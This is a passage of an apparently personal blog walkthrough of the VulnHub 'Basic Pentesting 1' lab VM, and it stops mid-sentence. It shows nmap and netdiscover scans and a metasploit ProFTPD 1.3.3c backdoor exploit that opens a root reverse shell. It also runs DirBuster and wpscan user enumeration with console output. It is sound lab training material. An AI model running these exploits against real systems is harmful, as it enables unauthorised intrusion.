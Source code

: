 ```yaml
---
layout: post
title:  "Walkthrought Basic Pentesting"
date:   2020-03-26 23:20:58 +0530
tags: CTF update
---
```


In this walkthrough we are going to look at various steps of exploiting the end device. The `.ova` file can be downloaded from [www.vulnhub.com](https://www.vulnhub.com/entry/basic-pentesting-1,216/)
## Scanning the network
One of the first steps is to scan the network for open ports and look for vulnerabilities. It can be done using tools/ utilities like `netdiscover` and `nmap`. We will see usage and outcome of both of these tools.
### Using Netdiscover
`eth1` is the interface of the network on which you are listening to the incoming traffic. The interface can be checked by `ifconfig` command.

{% highlight console %}
netdiscover -i eth1 -r 10.10.10.0/24
{% endhighlight %}

{% highlight console %}

 Currently scanning: Finished!   |   Screen View: Unique Hosts                       
                                                                                     
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                     
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.10.10.1      0a:00:27:00:00:05      1      60  Unknown vendor                    
 10.10.10.100    08:00:27:72:2f:90      1      60  PCS Systemtechnik GmbH            
 10.10.10.104    08:00:27:c5:db:a3      1      60  PCS Systemtechnik GmbH            
 10.10.10.105    08:00:27:5b:29:29      1      60  PCS Systemtechnik GmbH            

{% endhighlight %}

[comment]: <> ( // ![screenshot]({{ '/assets/img/posts/netdiscover.png' | relative_url }}) )

### Using Nmap

We can also use `nmap` for target discovery. Since we have already made the target discovery using `netdiscover`, we can move
forward to find open ports and the services running on those ports.

The option
{% highlight console %}
-A: Enable OS detection, version detection, script scanning, and traceroute
{% endhighlight %}

{% highlight console %}
nmap -A 10.10.10.104
{% endhighlight %}

{% highlight console %}
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-31 13:46 EDT
Nmap scan report for vtcsec (10.10.10.104)
Host is up (0.00065s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:C5:DB:A3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms vtcsec (10.10.10.104)
{% endhighlight %}

[comment]: <> ( ![screenshot]({{ '/assets/img/posts/nmap.png' | relative_url }}) )

## Results of Scanning

In our `nmap` scan results we have found three ports open with three different services running on these ports.
We will try to exploit all these three services one by one to gain a foothold on the target device. Lets start with the easiest.

##  Targeting FTP

From the scan results of `nmap` we have found that ftp version is `ProFTPD 1.3.3c`. We will now kickstart metasploit framework console to find, if we have some exploits for this version of FTP.

{% highlight console %}
msfconsole
{% endhighlight %}

Search the framework for any existing exploits.

{% highlight console %}
msf5 > search ProFTPD 1.3.3c

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   1  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   2  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   6  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution

{% endhighlight %}

Now we have found an exploit with ranking of `excellent`. Lets try that out.

{% highlight console %}
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 10.10.10.103:4444
[*] 10.10.10.104:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RATOzCBJHKVT6cmO;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "RATOzCBJHKVT6cmO\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.10.10.103:4444 -> 10.10.10.104:41092) at 2020-03-27 14:17:39 -0400

pwd
/
whoami
root
{% endhighlight %}

## Targeting Website

As a first step we need to enumerate the directories of the website. For this we
will use `DirBuster`. This tool is developed by OWASP Foundation to brute force
directories and file names on web/application servers.
This tool is also available in Kali Linux.

In order to use this tool we need to provide the base path of the website and the
wordlist. This wordlist will be used for all the combinations to enumerate the directories. 
We will be using the pre-installed wordlist with Kali Linux.
The path of wordlist list in Kali Linux is

`/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

The output of the tool shows that there is an existing `/secret` directory which contains the `index.html` page.

Once we land on the home page, we find that it is a wordpress site but the
layout is not properly formatted. It happens because the webpages are not able
to resolve the links for the stylesheets. In order to overcome this challenge, we need to reslove
the domain name with the IPaddress. For this we will make an entry
into the hosts file of our Kali PC.

{% highlight console %}
nano /etc/hosts
10.10.10.104  vtcsec
{% endhighlight %}

The next step would be to scan for vulnerabilities in wordpress site. This can be done by using
`wpscan`. It can be downloaded from [wpscan.org](https://wpscan.org/). This tool also comes pre-installed
on Kali Linux.

Now, if can somehow exploit the wordpress site to upload our webshell, we can
get acess to the system. One of the simpliest ways is to find the user accounts
and then try to bruteforce the passwords.

Let us try to enumerate the users

{% highlight console %}
wpscan --url http://10.10.10.104/secret --enumerate u --api-token SFQsH.....ayIm1ppfZZ8FH0
{% endhighlight %}

`SFQsH.....ayIm1ppfZZ8FH0` is the `api-key` which you get after registering with
[wpvulndb.com](https://wpvulndb.com/)

{% highlight console %}
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
{% endhighlight %}

Once we have enumerated the users, we can bruteforce the password. We have downloaded
the wordlist `rockyou-75.txt` from  
